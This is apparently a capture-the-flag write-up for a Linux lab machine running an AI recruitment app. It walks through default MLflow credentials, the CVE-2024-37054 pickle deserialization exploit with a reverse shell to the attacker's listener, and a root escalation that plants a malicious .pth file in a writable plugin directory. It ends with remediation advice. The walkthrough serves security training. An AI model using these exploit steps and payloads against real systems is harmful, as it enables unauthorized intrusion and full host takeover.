




| Property         | Value                                                                 |
| ---------------- | --------------------------------------------------------------------- |
| **OS**           | Linux                                                                 |
| **Difficulty**   | Medium                                                                |
| **Release Date** | 2026-05-16                                                            |
| **State**        | Active                                                                |
| **IP**           | 10.129.2.234                                                          |
| **Techniques**   | vhost enumeration, MLflow pickle deserialization RCE, .pth file abuse |
| **Tags**         | #web #privesc #linux #python                                          |

---
## Summary

SmartHire is a medium Linux machine hosting SmartHire, an AI-powered recruitment platform on port 80. Virtual host enumeration reveals `models.smarthire.htb`, running an MLflow Tracking Server version 2.14.1 accessible with default credentials. MLflow is vulnerable to an authenticated RCE (CVE-2024-37054): an attacker can overwrite a registered model's pickle artifact and trigger its deserialization during a prediction request, allowing an attacker to obtain a reverse shell as `svcweb`. `svcweb` can run as root a python script via `sudo`. Upon execution the script loads a `plugins` directory, which is subdivided into two different directories, `core` and `dev`. The `dev` directory is writeable by `svcweb`. Writing a malicious `.pth` file into the `dev` directory causes `site.addsitedir()` to execute arbitrary Python before the script's own imports, spawning a root shell.

---
## Enumeration

```
echo '10.129.2.234 smarthire.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sV -sC smarthire.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-22 07:24 EDT
Nmap scan report for smarthire.htb (10.129.2.234)
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 41:3c:e3:bb:88:70:99:7f:b8:96:59:48:9b:85:98:69 (ECDSA)
|_  256 d5:9d:fd:6b:be:d8:39:6f:3f:43:ab:0e:f6:3e:22:db (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Overview | SmartHIRE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 10.73 seconds
```

### Service Enumeration

The service running on port 80 is SmartHire, an AI-powered application for job recruitment.


It is possible to create a new user and login into the application.


A logged user can access two functionalities: training an AI model with hiring data and make predictions about the candidate skills based on the training data used.



### Vhost Discovery

Discovered the `models.smarthire.htb` vhost:

```
gobuster vhost -u http://smarthire.htb \
  -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain

models.smarthire.htb   Status: 401 [Size: 137]
```

```
echo '10.129.2.234 models.smarthire.htb' | sudo tee -a /etc/hosts
```

Added the discovered vhost to the `/etc/hosts` file.

A login form is displayed:



```
curl http://models.smarthire.htb/
You are not authenticated. Please see https://www.mlflow.org/docs/latest/auth/index.html#authenticating-to-mlflow on how to authenticate.
```

The vhost is running an MLflow Tracking Server, an open-source platform for managing machine learning experiments, model registration, and artifact storage. Following the link, it shows the documentation page of MLflow.



The MLflow instance is accessible with the default credentials `admin:password`.

**Vulnerable MLflow version 2.14.1:**



---
## Foothold

### CVE-2024-37054

MLflow loads registered model artifacts by calling Python's `pickle.load()` on the stored `python_model.pkl` file. The pickle format encodes executable instructions. Any class can define a `__reduce__` method to control how it is reconstructed on load; when Python deserializes the object, it invokes whatever callable `__reduce__` returns, with no sandboxing.

MLflow allows authenticated users to overwrite artifacts via the `PUT /api/2.0/mlflow-artifacts/artifacts/` endpoint. An attacker can register a legitimate model to obtain a valid run ID, replace the `.pkl` artifact with a crafted pickle payload, then trigger a prediction request to cause the server to call `pickle.load()` on the malicious file, executing arbitrary OS commands at the privilege level of the MLflow process.

**Prerequisites for exploitation:**

- Network access to the MLflow Tracking Server
- Valid MLflow credentials
- A registered user account on the SmartHire application (required to trigger predictions)

### Exploitation

PoC: [github.com/ben-slates/CVE-2024-37054](https://github.com/ben-slates/CVE-2024-37054)

```shell
python3 poc.py http://smarthire.htb http://models.smarthire.htb 10.10.14.67 1111 \
  --mlflow-creds admin:password \
  --app-username user \
  --app-password password

[*] Step 1/6: Authentication
[+] Authentication successful
[*] Step 2/6: Generating payload
[+] Payload size: 254 bytes
[*] Step 3/6: Registering model
[+] Model registered: company-d5d956078845-model (v1)
[*] Step 4/6: Retrieving run ID
[+] Found run: 8204f89575f0414d9329a8dc2ddbc6d7
[*] Step 5/6: Uploading malicious pickle
[+] Payload uploaded successfully (254 bytes)
[*] Step 6/6: Triggering remote code execution
[+] Request timed out - shell should be connected!
```

```
nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.2.234] 41416
svcweb@smarthire:/var/www/smarthire.htb$
```

A shell is obtained as `svcweb`. 
## User Flag

```
svcweb@smarthire:/var/www/smarthire.htb$ cat /home/svcweb/user.txt
0b0a****************************84
```

---
## Privilege Escalation

### Enumeration

`svcweb` can run as root a custom python script, `mlflowctl.py`, with any arguments.

```
svcweb@smarthire:~$ sudo -l
Matching Defaults entries for svcweb on smarthire:
    env_reset, secure_path=..., use_pty

User svcweb may run the following commands on smarthire:
    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

The script allows an user to perform three different actions on the mlflow service. It can check the status of the active models, execute a backup and restart the service.

```
svcweb@smarthire:/var/www/smarthire.htb$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
[!] Unknown action: app.py
Usage: mlflowctl.py [status|backup-models|restart]
```

`mlflowctl.py` script:

```python
#!/usr/bin/env python3
"""
MLFLOW-CTL: Operational interface for managing the MLflow service.
Supports a pluggable extension model for environment-specific logic.
For changes or plugin requests, please contact the Platform Team.
"""

from pathlib import Path
import sys
import site

BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

# make plugins importable
for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))

def print_usage():
    print("Usage: mlflowctl.py [status|backup-models|restart]")
    sys.exit(1)

def main():
    import mlflow_actions, backup_models

    if len(sys.argv) < 2:
        print_usage()

    action = sys.argv[1]

    if action == "status":
        mlflow_actions.check_status()
    elif action == "backup-models":
        print("[*] Running backup via backup_models plugin...")
        backup_models.run()
    elif action == "restart":
        mlflow_actions.restart()
    else:
        print(f"[!] Unknown action: {action}")
        print_usage()

if __name__ == "__main__": main()
```

The script loads the plugins by calling `site.addsitedir()` on each subdirectory of the `plugins/` folder:

```python
BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))
```

The `plugins/` directory contains two subdirectories: `core` (owned by root) and `dev` (writable by `svcweb`).

```
svcweb@smarthire:/opt/tools/mlflow_ctl$ ls -la plugins
total 16
drwxr-xr-x 4 root root 4096 Feb 19 18:10 .
drwxr-xr-x 3 root root 4096 Feb 19 18:16 ..
drwxr-xr-x 3 root root 4096 Feb 20 09:26 core
drwxrwxr-x 2 root devs 4096 May 12 15:22 dev
```

### .pth File Abuse via site.addsitedir()

`sys.path` is a list of directories that Python searches through after an `import`. `site.addsitedir()` extends `sys.path`with the given directory and processes any `.pth` files found inside it.
A `.pth` file is intended to list additional paths, one per line. However, Python treats any line beginning with `import` as executable Python code and runs it immediately during processing, before the script continues execution.
Since `site.addsitedir()` is called at the top of `mlflowctl.py` before any imports in `main()`, a `.pth` file written to `plugins/dev/` executes arbitrary Python as root the moment the script is invoked.
### Exploitation

Writing a malicious .pth file in the `dev` directory:

```shell
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ echo 'import os; os.system("/bin/bash")' > root.pth
```

Executing the script again spawns a root shell:

```
svcweb@smarthire:/opt/tools/mlflow_ctl/plugins/dev$ sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py backup-models
root@smarthire:/opt/tools/mlflow_ctl/plugins/dev#
```

## Root Flag

```
root@smarthire:/opt/tools/mlflow_ctl/plugins/dev# cat /root/root.txt
09b4****************************45
```

---
## Remediation

- **Weak credentials on MLflow:** Change default credentials on first deployment and enforce a strong password policy.
- **CVE-2024-37054:** Upgrade MLflow to a version that does not use `pickle` for model artifact deserialization, or restrict artifact write permissions to trusted roles only.
- **Writable plugin directory:** Remove write access to any directory processed by `site.addsitedir()` in scripts runnable as root. Treat any path added via `site.addsitedir()` as equivalent to a code execution.
- **sudo rule scope:** Restrict `sudo` access when not necessary, and restrict the `sudo` rule to specific arguments rather than allowing wildcard arguments (`*`).

---
## References

- [CVE-2024-37054 PoC](https://github.com/ben-slates/CVE-2024-37054)
- [Python pickle documentation — security warning](https://docs.python.org/3/library/pickle.html)
- [Python site module — .pth file processing](https://docs.python.org/3/library/site.html)